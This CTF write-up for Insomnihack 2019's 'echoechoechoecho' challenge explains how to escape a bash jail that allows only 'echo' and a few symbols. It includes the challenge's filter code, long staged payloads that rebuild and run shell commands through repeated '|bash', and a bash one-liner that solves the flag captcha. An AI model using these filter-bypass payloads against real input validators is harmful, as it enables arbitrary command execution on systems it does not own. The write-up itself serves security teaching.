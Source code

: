 # insomnihack CTF 2019
## echoechoechoecho - 216 , 18 solves
`INS{echo_echoecho_echo__echoech0echo_echoechoechoecho_bashbashbashbash}`
* [solve.py](https://github.com/ssspeedgit00/CTF/blob/master/2019/insomnihack/echoechoechoecho/solve.py)
### The Challenge
Input `thisfile` gives us the source code, the input will be appended several `|bash` and be executed by `bash`. Only very few special characters are allowed:
```python
def check_input(payload):
    if payload == 'thisfile':
        bye(open("/bin/shell").read())

    if not all(ord(c) < 128 for c in payload):
        bye("ERROR ascii only pls")

    if re.search(r'[^();+$\\= \']', payload.replace("echo", "")):
        bye("ERROR invalid characters")

    # real echolords probably wont need more special characters than this
    if payload.count("+") > 1 or \
            payload.count("'") > 1 or \
            payload.count(")") > 1 or \
            payload.count("(") > 1 or \
            payload.count("=") > 2 or \
            payload.count(";") > 3 or \
            payload.count(" ") > 30:
        bye("ERROR Too many special chars.")

    return payload
```
Payload can only contain `(` , `)` , `;` , `+` , `$` , `\` , `=` , ` ` , `'` and `echo`, and limited number of use of them.
### What we can use
* `$$` - bash process id.
* `$((1+2))` - 3.
### Variables
Thus it can not contain any lower case aphebat, but only `echo`.
* `$a` - `$echo`
* `$b` - `$echoecho`
* `$c` - `$echoechoecho`
* `echo=$$; echo $echo` -> `8`
### Bypass the limited number of use
We can store the special character in the variable with using backslash. The payload `echo=\=; echo echoecho$echo$$` will output `echoecho=8`. Then we can pass it to `bash` use `|bash`. Other example: `echo=\'; echo echo $echo$$$echo` -> `echo '8'`.
### Generate any number
In the seccond `bash`, `$$` is equal to `10` and we can generate `1` by `$(($$==$$))`,`$((10==10))`.For now, we can use `1` and `10` to caculate any number.
### To char
* `echo $'\154\163'` -> `ls`
### We are almost done!
```
echo=\=;echo echoecho$echo\\\; echoechoecho$echo\\\( echoechoechoecho$echo\\\) echoechoechoechoecho$echo\\\+ echoechoechoechoechoecho$echo\\\'\; echo echo echo \\\\$\\\\\$echoechoechoechoechoecho\\\\\\\\\\$\$echoechoecho\$echoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoecho\$echoechoechoecho\\\\\\\\\\$\$echoechoecho\$echoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoechoecho\\$\$echoechoecho\$echoechoecho\$\$$echo$echo\$\$\$echoechoechoecho\$echoechoechoecho\$echoechoechoecho\$echoechoechoecho\\\\\$echoechoechoechoechoecho
```
* `|bash`
```
echoecho=\; echoechoecho=\( echoechoechoecho=\) echoechoechoechoecho=\+ echoechoechoechoechoecho=\'; echo echo echo \\$\\$echoechoechoechoechoecho\\\\\$$echoechoecho$echoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoecho$echoechoechoecho\\\\\$$echoechoecho$echoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoechoecho\$$echoechoecho$echoechoecho$$==$$$echoechoechoecho$echoechoechoecho$echoechoechoecho$echoechoechoecho\\$echoechoechoechoechoecho
```
* `|bash`
```
echo echo \$\'\\$(($((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10==10))+$((10==10))+$((10==10))+$((10==10))))\\$(($((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10))+$((10==10))+$((10==10))+$((10==10))))\'
```
* `|bash`
```
echo $'\154\163'
```
* `|bash`
```
ls
```
* `|bash`
```
bin
boot
dev
etc
flag
get_flag
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```
### There is a captcha `get_flag`
I follow the solution of captcha of <a href="https://hack.more.systems/writeup/2017/12/30/34c3ctf-minbashmaxfun/">LosFuzzys</a>:
```bash
eval "echo \$(($(cat /tmp/a)))"|/get_flag|(read l;read l;echo $l>/tmp/a;cat;)
```
### Finally the flag
`INS{echo_echoecho_echo__echoech0echo_echoechoechoecho_bashbashbashbash}`